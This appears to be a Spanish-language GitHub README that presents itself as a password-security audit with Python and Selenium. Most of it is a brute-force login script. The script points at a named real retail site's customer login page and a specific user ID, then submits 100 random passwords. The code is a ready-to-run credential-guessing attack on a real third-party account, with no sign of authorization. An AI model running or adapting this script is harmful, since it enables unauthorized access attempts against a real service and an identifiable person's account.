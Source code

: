 # Automatización de credenciales con python y selenium
Auditar la implementación de los sistemas de creación, actualización, acceso, transmisión y recuperación de contraseñas

## Selenium 
Selenium es un entorno de pruebas que se utiliza para automatizar servicios de sowftware.

## Instalación
Usa el pip en la consola para instalar el paquete de selenium.

```bash
pip install selenium
```
## Ejemplo de uso de python con selenium (ataque fuerza bruta)

```python
import string
import time
import random

#Carga el módulo webdriver para implementar las clases y métodos para el soporte de los diferentes navegadores
from selenium import webdriver

#Carga la configuración del teclado virtual para simular las entradas de teclado
from selenium.webdriver.common.keys import Keys

#Crea una instancia de Chrome que se pueda controlar con comandos de selenium.
driver = webdriver.Chrome()

#Llama a la página chilena, que será la base para las interacciones automatizadas
driver.get('https://www.wei.cl/cliente/ingreso')
time.sleep(5)
#variable que contendrá carácteres uppercase, lowercase y digitos del 0-9, es decir base 62
letters = string.ascii_letters + string.digits

#Inicia la automatiación de 100 accesos (verifica si el sitio web es susceptible a ataques por fuerza bruta) 
for x in range(100):

    #Se buscará dentro del sitio web los elementos que contengan un atributo name llamados ''access login''
    usr = driver.find_element_by_id("client-username")
    usr.clear()
    usr.send_keys("20189579-0")
    psw = driver.find_element_by_id("client-password")
    str = ''.join(random.choice(letters) for i in range(random.randrange(6,10)))
    
    #Se introduce el valor que contiene la variable password
    psw.send_keys(str)
    print(str)
    
    #Está variable permite efectuar un evento click a la página web mediante el xpath
    clk = driver.find_element_by_xpath('//*[@id="form-ingreso-window"]/button').submit()
    time.sleep(1)
    psw.clear()
```
